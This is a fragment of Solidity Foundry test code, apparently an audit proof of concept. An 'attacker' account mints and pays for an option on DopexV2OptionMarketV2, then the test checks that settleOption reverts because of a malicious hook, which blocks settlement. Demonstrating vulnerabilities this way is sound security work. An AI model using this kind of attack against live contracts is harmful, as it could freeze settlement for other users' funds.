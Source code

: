 ```solidity
            });

            //mint some tokens to the attacker to pay the option fee
            vm.startPrank(attacker);
            token1.mint(attacker, 100 ether);
            token1.approve(address(optionMarket), 100 ether);

            //mint our option
            optionMarket.mintOption(
                DopexV2OptionMarketV2.OptionParams({
                    optionTicks: opTicks,
                    tickLower: tickLowerCalls,
                    tickUpper: tickUpperCalls,
                    ttl: 20 minutes,
                    isCall: true,
                    maxCostAllowance: 100 ether
                })
            );
            vm.stopPrank();
        }

        vm.warp(block.timestamp + 1201 seconds);
        uint256 optionId = 1;

        (,,,,,uint256 liquidityToUse) = optionMarket.opTickMap(1, 0);
        (,,,,,uint256 liquidityToUse2) = optionMarket.opTickMap(1, 1);

        uint256[] memory liquidityToSettle = new uint256[](2);
        liquidityToSettle[0] = liquidityToUse;
        liquidityToSettle[1] = liquidityToUse2;

        bytes[] memory swapData = new bytes[](2);
        swapData[0] = abi.encode(pool.fee(), 0);
        swapData[1] = abi.encode(pool.fee(), 0);

        ISwapper[] memory swappers = new ISwapper[](2);
        swappers[0] = srs;
        swappers[1] = srs;

        //settling will revert because of the malicious hook
        vm.expectRevert("maliciousHook");
        optionMarket.settleOption(
            DopexV2OptionMarketV2.SettleOptionParams({
                optionId: optionId,
                swapper: swappers,
                swapData: swapData,
                liquidityToSettle: liquidityToSettle
            })
        );
    }
```

